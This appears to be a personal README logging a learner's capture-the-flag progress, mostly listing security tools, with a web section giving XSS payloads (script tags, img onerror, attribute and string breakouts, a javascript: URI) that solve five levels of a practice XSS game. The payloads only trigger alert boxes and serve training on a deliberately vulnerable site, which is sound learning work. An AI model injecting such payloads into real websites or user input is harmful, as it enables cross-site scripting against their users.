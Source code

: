 # My CTF Journey

Welcome to my Capture The Flag (CTF) learning journey! Here, I document the challenges I've solved and the skills I've gained in the world of cybersecurity.


## Network Security

### CTF 1

**Tools:**
- Nmap
- Wireshark
- Metasploit

**Knowledge Base:**
[Link to Network Security Knowledge Base](#)

---

## Web Application Security
### XSS
##### CTF 1 : [XSS-GAMES.APPSPOT](https://medium.com/@onehackman/learning-xss-part-1-reflected-xss-brief-concept-techniques-challenge-walkthrough-85f6b165541b)
**Level 1**
```javascript
<script>alert()</script>
```

**Level 2**
```javascript
<img src=x onerror=alert(1)>
```

**Level 3**
```javascript
https://xss-game.appspot.com/level3/frame#23' onerror=alert()>
```

```javascript
23' onerror=alert()>
```

**Level 4**
```javascript
1');alert('1
```

**Level 5**
```javascript
javascript:alert()
```

##### CTF 2
**Tools:**
- Burp Suite
- OWASP Zap
- SQLMap

**Knowledge Base:**
[Link to Web Application Security Knowledge Base](#)

---

## Cryptocurrency Security

### CTF 3

**Tools:**
- Ganache
- Remix IDE
- MythX

**Knowledge Base:**
[Link to Cryptocurrency Security Knowledge Base](#)

